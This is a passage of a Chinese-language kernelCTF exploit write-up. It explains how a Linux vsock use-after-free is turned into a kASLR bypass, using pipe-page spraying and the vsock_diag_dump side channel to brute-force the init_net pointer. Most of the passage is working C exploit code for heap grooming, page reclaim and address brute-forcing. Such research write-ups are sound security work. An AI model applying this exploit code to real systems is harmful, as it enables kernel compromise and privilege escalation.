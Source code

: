   
由于我们释放的套接字仍然在绑定表中，因此只有两项检查可以防止我们从套接字中转储任何信息。前一项sk->sk_state检查很容易通过（不需要任何泄漏），但后一项sk_net检查似乎更难。我们如何才能伪造一个sk->__sk_common->skc_net指针而不发生 kASLR 泄漏？我在这方面被困了大约一周，但多亏了 discord 社区的帮助，我才得以克服这个难题！  
  
Diag Dump Sidechannel 的乐趣与收益  
  
陷入困境后，我求助于 kernelctf 社区，并在 discord 上分享了上述检查方法。几乎立刻，@h0mbre 就回复了我，建议暴力破解skc_net指针，本质上就是利用vsock_diag_dump侧信道攻击！太棒了🤯！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadaUxE9eycrpH9MyyWrS4apU2vuSs2BurmceZqT8HYHiaS2dVpuWLh9AgniazyicpQr5P16PrwSC53tQ/640?wx_fmt=png&from=appmsg "")  
  
所以总而言之，我们做以下事情来泄漏init_net...  
1. 喷水管道回收 UAF 插座的页面  
  
1. 使用受控值逐个 QWORD 地填充每个管道缓冲区  
  
1. 使用 vsock_diag_dump() 作为侧通道来检测我们覆盖的结构是否“足够有效”以绕过过滤  
  
1. 一旦 vsock_diag_dump() 停止报告我们的套接字，我们就知道我们损坏了 skc_net  
  
1. 然后，我们强制执行 init_net 的低位，直到套接字再次被接受 - 从而实现完全的 kASLR 绕过  
  
@h0mbre 建议使用管道支持页面，事实证明它比msg_msg我之前使用的对象更加稳定/易用。经过一番努力，我成功地编写了以下代码来泄漏sk_net指针。  
  
```
int junk[FLUSH];for (int i = 0; i < FLUSH; i++)    junk[i] = socket(AF_VSOCK, SOCK_SEQPACKET, 0);puts("[+] pre alloc sockets");int pre[PRE];for (int i = 0; i < PRE; i++)    pre[i] = socket(AF_VSOCK, SOCK_SEQPACKET, 0);// ... snip ... (alloc target & trigger uaf)puts("[+] fill up the cpu partial list");for (int i = 4; i < FLUSH; i += OBJS_PER_SLAB)    close(junk[i]);puts("[+] free all the pre/post alloc-ed objects");for (int i = 0; i < POST; i++)    close(post[i]);for (int i = 0; i < PRE; i++)    close(pre[i]);
```  
  
对象的预分配和后分配确保整个页面实际上被返回给伙伴分配器（参见此文）。下面是实际查找指针的代码skc_net。  
  
```
int pipes[NUM_PIPES][2];char page[PAGE_SIZE];memset(page, 2, PAGE_SIZE); // skc_state must be 2puts("[+] reclaim page");int w = 0;int j;i = 0;while (i < NUM_PIPES) {    sleep(0.1);    if (pipe(&pipes[i][0]) < 0) {        perror("pipe");        break;    }    printf(".");    fflush(stdout);    w = 0;    while (w < PAGE_SIZE) {        ssize_t written = write(pipes[i][1], page, 8);        j = query_vsock_diag();        w += written;        if (j != 48) goto out;    }    i++;    if (i % 32 == 0) puts("");}
```  
  
  
如你所见，这段代码只是不断创建新的管道，并一次填充一个 QWORD（0x0202020202020202 以满足skc_state），直到vsock_diag_dump不再找到目标套接字。这意味着我们已经覆盖了skc_net。一旦我们真正覆盖了指针，我们只需要以相同的方式暴力破解地址的低 32 位即可。  
  
```
long base = 0xffffffff84bb0000; // determined through experimentationlong off = 0;long addy;printf("[+] attempting net overwrite (aslr bypass).\n");while (off < 0xffffffff) {    close(pipes[i][0]);    close(pipes[i][1]);    if (pipe(&pipes[i][0]) < 0) {        perror("pipe");    }    addy = base + off;    write(pipes[i][1], page, w - 8);    write(pipes[i][1], &addy, 8);    if (off % 256 == 0) {        printf("+");        fflush(stdout);    }    j = query_vsock_diag();    if (j == 48) {        printf("\n[*] LEAK init_net @ 0x%lx\n", base + off);        goto out2;    }    off += 128;}
```  
  
  
通过skc_net覆盖，我们一举两得。我们绕过了 kASLR，并找到了 vsock 对象中已知的偏移量。  
  